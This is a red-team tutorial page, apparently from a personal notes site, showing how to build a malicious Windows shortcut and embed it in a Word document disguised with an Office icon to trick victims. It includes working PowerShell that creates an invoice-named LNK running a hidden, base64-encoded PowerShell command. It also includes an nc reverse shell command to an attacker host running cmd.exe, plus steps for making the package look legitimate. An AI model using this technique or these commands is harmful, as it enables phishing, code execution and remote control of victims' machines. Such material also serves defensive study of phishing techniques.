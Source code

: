 # ⭕ embedded OLE + LNK objects

{% embed url="https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence" %}

{% embed url="https://www.securify.nl/en/blog/click-me-if-you-can-office-social-engineering-with-embedded-objects" %}

attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them

Creating an .LNK file that will trigger the payload once executed:

```vba
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```

Powershell payload will trigger a rudimentary NC reverse shell:

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

Once the above powershell script is executed, an `.LNK` shortcut is created

![](<../../.gitbook/assets/image (23) (1).png>)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](<../../.gitbook/assets/image (50) (1).png>)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](<../../.gitbook/assets/image (21) (1).png>)

![](<../../.gitbook/assets/image (31) (1) (1).png>)

Point the package to the .lnk file containing the payload:

![](<../../.gitbook/assets/image (29) (1) (1).png>)

Final result:

![](<../../.gitbook/assets/image (12) (1).png>)

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](<../../.gitbook/assets/image (2).png>)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](<../../.gitbook/assets/image (42) (1) (1).png>)
